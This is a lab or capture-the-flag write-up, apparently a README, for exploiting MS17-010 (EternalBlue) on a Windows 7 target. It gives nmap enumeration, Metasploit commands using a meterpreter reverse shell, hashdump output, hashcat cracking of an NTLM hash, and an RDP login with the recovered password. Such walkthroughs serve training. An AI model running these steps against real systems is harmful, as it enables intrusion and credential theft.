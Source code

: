 # The Blue Room - EternalBlue Exploit Workshop

## Overview

In this workshop, we focus on exploiting **MS17-010 (EternalBlue)**, a critical SMB vulnerability that allows remote code execution on unpatched Windows machines. We used **Metasploit** to gain access to a target system. This is a step-by-step guide to exploit the vulnerability and gain access to a machine.

---

## Table of Contents

1. [Enumeration Phase](#enumeration-phase)
2. [Exploitation Phase](#exploitation-phase)
3. [Cracking Phase](#cracking-phase)
4. [Accessing the Target](#accessing-the-target)
5. [Conclusion](#conclusion)

---

## Enumeration Phase

We started by performing an **Nmap scan** to discover open ports, services, and the operating system of the target machine. Here is the command used for enumeration:

```bash
nmap <TARGET-IP> -A -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC

OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
Workgroup: WORKGROUP

```
The scan revealed several open ports, including 135/tcp (Microsoft RPC), 139/tcp (NetBIOS), and 445/tcp (Microsoft DS), which are commonly associated with **SMB and RPC services**. Additionally, the target machine is running **Windows 7 Professional 7601 Service Pack 1** in the WORKGROUP workgroup, making it potentially vulnerable to the EternalBlue exploit (MS17-010)

## Exploitation Phase
Next, we'll proceed with the exploitation phase where we use **Metasploit** to automate the exploitation of the MS17-010 (**EternalBlue**) vulnerability.

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET-IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
exploit
```
## Cracking Phase

```bash
hashdump  # Dump user credentials

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

you need to extract the Jon user hashed password which is in this case "**ffb43f0de35be4d9917ac0cc8ad57f8d**"

```bash
hashcat -m 1000 -a 0 "ffb43f0de35be4d9917ac0cc8ad57f8d" /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
Time.Started.....: Sun Mar  9 17:27:18 2025 (3 secs)
Time.Estimated...: Sun Mar  9 17:27:21 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4873.3 kH/s (0.08ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10201600/14344385 (71.12%)
Rejected.........: 0/10201600 (0.00%)
Restore.Point....: 10199040/14344385 (71.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: alsinah -> alpha2345
Hardware.Mon.#1..: Util: 24%
```

we found the password which is "**alqfna22**"


## Accessing the Target

since the RDP PORT is open we can use 
```bash
rdesktop -u Jon -p alqfna22 <TARGET-IP>
```

we are in and we have **full control** on the JON PC . It's like we are controlling his own PC at home.
